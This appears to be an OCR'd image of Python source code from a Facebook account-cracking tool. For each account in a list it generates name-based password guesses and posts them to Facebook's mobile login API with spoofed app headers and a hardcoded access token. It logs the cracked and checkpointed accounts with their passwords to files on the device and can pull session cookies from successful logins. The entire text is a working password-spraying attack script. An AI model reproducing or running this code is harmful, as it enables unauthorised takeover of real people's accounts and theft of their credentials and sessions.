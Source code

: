     def start(user):
     try:
        global loop,accounts
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
           last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mJXS-M1\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mOK : \033[1;92m{} \033[1;97mCP : \033[1;91m{}       \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:              
            heads = None
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mShezii😍-OK\033[1;92m] \033[1;97m'+acc+' \033[1;92m✓\033[1;97m '+pword+'  ')
                open('/sdcard/Shezii😍-OK.txt','a').write(f'{acc} ✓ {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                           ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except Exception as e:print(str(e)+' | '+response.text)
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mShezii😍-CP\033[1;91m] \033[1;97m'+acc+' \033[1;91m✓\033[1;97m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/Shezii😍-CP.txt','a').write(f'{acc} ✓ {pword}\n')
                break
            else:
                continue